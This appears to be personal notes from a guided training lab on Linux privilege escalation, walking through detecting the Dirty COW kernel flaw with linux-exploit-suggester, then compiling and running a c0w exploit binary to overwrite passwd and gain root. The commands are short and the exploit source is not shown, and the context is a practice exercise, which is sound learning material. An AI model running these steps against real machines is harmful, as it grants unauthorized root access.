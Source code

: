 Detection  

  Linux VM
  
1. In command prompt type:

```
/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
```

2. From the output, notice that the OS is vulnerable to “dirtycow”.

![[Pasted image 20240530193420.png]]


Exploitation

Linux VM

1. In command prompt type:

```
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
```

2. In command prompt type: **./c0w**

**Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.**

3. In command prompt type: **passwd**

4. In command prompt type: **id**


From here, either copy /tmp/passwd back to /usr/bin/passwd or reset your machine to undo changes made to the passwd binary

Answer the questions below

Click 'Completed' once you have successfully elevated the machine

![[Pasted image 20240530193953.png]]
